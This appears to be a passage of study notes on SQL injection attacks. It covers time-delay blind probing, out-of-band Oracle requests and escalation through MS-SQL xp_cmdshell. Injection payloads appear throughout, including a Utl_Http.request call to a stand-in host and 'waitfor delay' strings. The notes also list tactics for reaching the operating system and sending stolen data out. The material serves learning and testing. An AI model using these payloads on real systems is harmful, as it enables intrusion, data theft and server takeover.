 ```
SELECT 'a'||Utl_Http.request('http://madeupserver.com') FROM dual WHERE (SELECT username FROM all_users WHERE username = 'DBSNMP') = 'DBSNMP'
```

In both Oracle and MySQL databases, you can use the `SUBSTR(ING)` and `ASCII` function to retrive arbitrary information one byte at a time. 

**TIP: We have described the use of time delays as a means of extracting interesting information. However, the time-delay technique can also be immensely useful when performing initial probing of an application to detect SQL injection vulnerabilities. In some cases of completely blind SQL injection, where no results are returned to the browser and all errors are handled invisibly, the vulnerability itself may be hard to detect using standard techniques based on supplying crafted input. In this situation, using time delays is often the most reliable way to detect the present of a vulnerability during initial probing. For example, if the back-end database is MS-SQL, you can inject each of the following strings into each request parameter in turn and monitor how long the application takes to identify any vulnerabilities:**

```
'; waitfor delay '0:30:0'--
1; waitfor delay '0:30:0'--
```


## Beyond SQL Injection: Escalating the Database Attack
Most applications employ a single account for all database access and rely on application-layer controls to enforce segregation of access between different users. Further attacks tha can be performed by escalating the database attack include the following:
- If the database is shared with other applications, you may be able to escalate privileges within the database and gain access to other applications' data.
- You may be able to compromise the OS of the database server.
- You may be able to gain network access to other systems. From the database server, you may be in a trusted position and be able to reach key services on other hosts, which may be further exploitable.
- You may be able to make network connections back out of the hosting infrastructure to your computer. This may enable you to bypass the application, easily transmitting large ammounts of sensitive data gathered from the database, and often evading many intrusion detection systems.
- You may be able to extend the database's existing functionaligy in arbitrary ways by creating usre-defined functions. There is a method for doing this in each of the mainstream databases, provided that you have gained database administrator (DBA) privileges.

### MS-SQL
The `xp_cmdshell` procedure allows users with DBA permissions to execute operating system commands in the same way as the `cmd.exe` command prompt. For example:

```
master..xp_cmdshell 'ipconfig > foo.txt'
```

Attackers can perform arbitrary commands, pipe the results to local files, and read them back. Because MS-SQL runs by default as `LocalSystem`, the attacker typically can fully compromise the underlying operating system, performing arbitrary actions. MS-SQL contains a wealth of other extended stored procedures, such as `xp_regread` and `xp_regwrite`, that can be used to perform powerful actions within the registry of the Windows operating system.
